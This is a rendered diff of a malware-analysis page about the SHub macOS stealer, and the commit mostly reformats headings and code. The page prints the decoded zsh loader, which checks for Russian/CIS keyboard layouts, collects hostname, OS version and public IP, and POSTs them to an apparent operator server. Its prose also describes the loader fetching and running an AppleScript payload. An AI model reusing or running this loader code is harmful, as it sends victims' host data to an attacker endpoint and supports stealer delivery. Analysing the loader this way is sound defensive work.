

Before and after one commit to userHonest/docs, a Markdown page: malware/shub-stealer.md, the part around one of its changes. Shown at 99% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/malware/shub-stealer.md
+++ b/malware/shub-stealer.md
@@ -91,28 +115,25 @@ PAYLOAD_5191683a
 eval "$d75ddb1"
 ```
 
-##
-
-## **Explanation of the Decoded Loader Script**
-
-### **Environment filtering \-  Step 1**
+## Explanation of the Decoded Loader Script
+
+### Step 1: Environment Filtering
 
 The script checks the user's enabled keyboard layouts and flags hosts with a Russian/CIS layout. If that condition is met, it sends a telemetry event and exits. That is a selective execution filter.
 
-### **Basic host fingerprinting \- Step 2**
+### Step 2: Basic Host Fingerprinting
 
 It collects locale, hostname, OS version, and public IP address. That information is packed into JSON and sent to the remote debug endpoint.
 
-### **Telemetry before payload delivery \- Step 3**
+### Step 3: Telemetry Before Payload Delivery
 
 If the host is not blocked, it sends a **`loader_requested`** event. That tells the operator the wrapper reached a machine suitable for the next stage.
 
-### **Download and execute the AppleScript**
+### Step 4: Download and Execute the AppleScript
 
 The final action is the important one: it retrieves `payload.applescript` from the server and pipes it into `osascript`. So the decoded loader is not the main stealer. It is a downloader and execution bridge to the real AppleScript payload.
 
-```
-
+```shell
 #!/bin/zsh
 # Debug loader — detect CIS and block with telemetry
 IS_CIS="false"
@@ -121,19 +142,43 @@ if defaults read ~/Library/Preferences/com.apple.HIToolbox.plist AppleEnabledInp
 fi
 
 # Detect locale info — sanitize for JSON
-LOCALE_INFO=$(defaults read ~/Library/Preferences/com.apple.HIToolbox.plist AppleEnabledInputSources 2>/dev/null | grep -i "KeyboardLayout Name" | head -5 | tr '\n' ',' | tr -d '"' | tr -d "'" || echo "unknown")
+LOCALE_INFO=$(
+  defaults read ~/Library/Preferences/com.apple.HIToolbox.plist AppleEnabledInputSources 2>/dev/null | \
+  grep -i "KeyboardLayout Name" | \
+  head -5 | \
+  tr '\n' ',' | \
+  tr -d '"' | \
+  tr -d "'" || echo "unknown"
+)
 HOSTNAME=$(hostname 2>/dev/null | tr -d '"' || echo "unknown")
 OS_VER=$(sw_vers -productVersion 2>/dev/null || echo "unknown")
-EXT_IP=$(curl -s --max-time 5 https://api.ipify.org 2>/dev/null || curl -s --max-time 5 https://icanhazip.com 2>/dev/null || curl -s --max-time 5 https://ifconfig.me 2>/dev/null || echo "unknown")
+EXT_IP=$(
+  curl -s --max-time 5 https://api.ipify.org 2>/dev/null || \
+  curl -s --max-time 5 https://icanhazip.com 2>/dev/null || \
+  curl -s --max-time 5 https://ifconfig.me 2>/dev/null || \
+  echo "unknown"
+)
 EXT_IP=$(echo "$EXT_IP" | tr -d '
 
  ')
 
 # Build JSON safely using printf
 send_debug_event() {
-    local EVT="$1"
-    local JSON=$(printf '{"event":"%s","build_hash":"%s","ip":"%s","is_cis":"%s","locale":"%s","hostname":"%s","os_version":"%s"}' "$EVT" "492f9e58358e8e2bc9e0414fa077e197" "$EXT_IP" "$IS_CIS" "$LOCALE_INFO" "$HOSTNAME" "$OS_VER")
-    curl -s -X POST "https://datasphere.us.com/api/debug/event" -H "Content-Type: application/json" -d "$JSON" --max-time 5 >/dev/null 2>&1
+  local EVT="$1"
+  local JSON=$(
+    printf '{"event":"%s","build_hash":"%s","ip":"%s","is_cis":"%s","locale":"%s","hostname":"%s","os_version":"%s"}' \
+      "$EVT" \
+      "492f9e58358e8e2bc9e0414fa077e197" \
+      "$EXT_IP" \
+      "$IS_CIS" \
+      "$LOCALE_INFO" \
+      "$HOSTNAME" \
+      "$OS_VER"
+  )
+  curl -s -X POST "https://datasphere.us.com/api/debug/event" \
+    -H "Content-Type: application/json" \
+    -d "$JSON" \
+    --max-time 5 >/dev/null 2>&1
 }
 
 # If CIS — send cis_blocked event and exit
````
Also changed, not shown: other parts of malware/shub-stealer.md (+198 -163 lines).
